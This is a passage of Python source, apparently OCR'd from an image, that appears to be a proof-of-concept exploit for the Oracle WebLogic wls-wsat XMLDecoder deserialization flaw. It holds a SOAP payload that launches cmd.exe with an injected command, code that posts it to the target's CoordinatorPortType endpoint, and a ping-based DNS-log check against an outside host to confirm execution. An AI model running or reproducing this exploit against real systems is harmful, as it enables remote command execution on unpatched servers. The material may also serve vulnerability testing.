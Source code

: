 ```python
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
'''
windows_poc=r'''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>C:\Windows\System32\cmd.exe</string>
              </void>
              <void index="1">
                <string>/c</string>
              </void>
              <void index="2">
                <string>{0}</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
'''
def detect(url,data):
    try:
        req = requests.post(url + '/wls-wsat/CoordinatorPortType', data=data, verify=False, timeout=3, headers=heads)
        #print req.content
        req.close()
    except Exception as e:
        print e
def check_dnslog(host,port):
    verify_url= "http://admin.0y0.link/api/dns/{0}/{1}/".format(dnslog_address.split(".")[0],host)
    #verify_url = "http://dnslog/api.php?apikey=yoursapikey&action={action}&domain={host}"
    print verify_url
    try:
        verify_rep = requests.get(verify_url, timeout=60, verify=False,allow_redirects = False)
        return verify_rep.content
    except Exception as e:
        return False

if __name__ == "__main__":
    if len(sys.argv)==2:
        try:
            x = urlparse.urlparse(sys.argv[1])
            procotol = x.scheme
            host = x.netloc.split(":")[0]
            port = x.port
            url = "{0}://{1}:{2}".format(procotol,host,port)
            domain = "{0}.{1}.{2}".format(port,host,dnslog_address)
            payload = "ping -n 3 {0} || ping -c 3 {1}".format(domain,domain)
            print "payload: {0}".format(payload)
            linux_data =linux_poc.format(payload)
            windows_data = windows_poc.format(payload)
            #print linux_data
```